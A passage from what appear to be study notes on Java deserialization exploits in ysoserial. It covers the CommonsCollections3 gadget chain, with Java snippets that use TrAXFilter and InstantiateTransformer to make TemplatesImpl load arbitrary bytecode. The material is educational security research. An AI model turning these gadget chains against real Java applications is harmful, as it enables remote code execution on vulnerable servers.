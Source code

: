 ```java
  
// switch contents of queue  
final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");  
queueArray[0] = templates;  
queueArray[1] = 1;

return queue;
```


### CommonCollections3

> A variant of CC1, replace `InvokerTransformer` by `InstantiateTransformer`


> [!NOTE] pre-requirements
> JDK <= 7u21, reproduce on jdk7u21
> commons-collections:commons-collections:3.1

As [[Java Deserialize Vulnerabilities, ysoserial study#TemplatesImpl exploit|this section]] presents, `TemplatesImpl`'s `newTransformer` exposes an approach to loading arbitrary byte code.

Seek for reference of `TemplatesImpl`'s `newTransformer` method, find in `TrAXFilter`'s constructor:
```java
public TrAXFilter(Templates templates)  throws  
    TransformerConfigurationException  
{  
    _templates = templates;  
    _transformer = (TransformerImpl) templates.newTransformer();  
    _transformerHandler = new TransformerHandlerImpl(_transformer);  
    _useServicesMechanism = _transformer.useServicesMechnism();  
}
```

Immediately after [[Java Deserialize Vulnerabilities, ysoserial study#Proof of Concept|this code section]], proof concept above by code below:
```java
...
Class cls = com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter.class;  
Constructor constructor = cls.getDeclaredConstructor(Templates.class);  
constructor.setAccessible(true);  
constructor.newInstance(templates); // templates is TemplatesImpl type
```

This routine can be translated into the form of transformers, by introducing `InstantiateTransformer`:
```java
final Transformer[] transformers = new Transformer[] {  
      new ConstantTransformer(TrAXFilter.class),  
      new InstantiateTransformer(  
            new Class[] { Templates.class },  
            new Object[] { templates } )};
```


[^1]: [Paper/浅谈Java反序列化漏洞修复方案.md at master · Cryin/Paper](https://github.com/Cryin/Paper/blob/master/%E6%B5%85%E8%B0%88Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88.md)